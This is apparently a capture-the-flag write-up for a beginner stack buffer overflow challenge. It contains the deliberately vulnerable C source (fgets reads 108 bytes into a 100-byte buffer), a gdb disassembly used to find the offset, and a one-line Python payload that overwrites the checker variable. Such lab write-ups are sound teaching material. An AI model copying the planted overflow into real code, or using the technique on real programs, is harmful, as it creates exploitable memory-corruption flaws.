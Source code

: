 # Overwrite Me

* Challenge description : ```There's no way you can overwrite my checker variable, right?```

# given c code : 
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

//gcc -m32 -fno-stack-protector -no-pie chall.c -o chall

void init()
{
    setvbuf(stdin,NULL,_IONBF,0);
    setvbuf(stdout,NULL,_IONBF,0);
    setvbuf(stderr,NULL,_IONBF,0);
    alarm(60);
}

void win()
{
    char flag[50];
	FILE *f = fopen("flag","r");
	if(f == NULL){
		printf("No flag file. If you are running this on the server, contact the admins.");
		exit(0);
	}
	fgets(flag, 50, f);
	puts(flag);
}
 
int main()
{
    init();
    char buf[100];
    int value = 0;
    puts("Can you overwrite me? Enter your input!");
    fgets(buf, 108, stdin);
    if(value != 0)
    {
        puts("Good job! Here's your flag!");
        win();
    }
    else
    {
        puts("Sorry, better luck next time!");
    }
    return 0;
}
```
* From the above c code, we can infer that value initialized to 0, must be changed to anything other than 0 to meet the condition ```if(value!=0){ }```
* With this condition met, win() function is called and hene the flag gets printed.
* To overflow the value, we must take a look at the gdb dump : 

```
   0x080492b4 <+15>:	sub    esp,0x70
   0x080492b7 <+18>:	call   0x8049100 <__x86.get_pc_thunk.bx>
   0x080492bc <+23>:	add    ebx,0x2d44
   0x080492c2 <+29>:	call   0x80491c2 <init>
   0x080492c7 <+34>:	mov    DWORD PTR [ebp-0xc],0x0
   0x080492ce <+41>:	sub    esp,0xc
   0x080492d1 <+44>:	lea    eax,[ebx-0x1fa4]
   0x080492d7 <+50>:	push   eax
   0x080492d8 <+51>:	call   0x8049060 <puts@plt>
   0x080492dd <+56>:	add    esp,0x10
   0x080492e0 <+59>:	mov    eax,DWORD PTR [ebx-0x8]
   0x080492e6 <+65>:	mov    eax,DWORD PTR [eax]
   0x080492e8 <+67>:	sub    esp,0x4
   0x080492eb <+70>:	push   eax
   0x080492ec <+71>:	push   0x6c
   0x080492ee <+73>:	lea    eax,[ebp-0x70]
   0x080492f1 <+76>:	push   eax
   0x080492f2 <+77>:	call   0x8049040 <fgets@plt>
   0x080492f7 <+82>:	add    esp,0x10
   0x080492fa <+85>:	cmp    DWORD PTR [ebp-0xc],0x0
```
* from the above gdb dump, we see that a stack space of 0x70 bytes are intialized and value at ebp-0xc is compared with 0x0. (i.e the if condition) 
* so to overflow by the right amount, the input must be 0x70-0xc bytes long.

# Python Code : 
```
python -c "print('A'*100) " | ./Overwriteme.chall
```
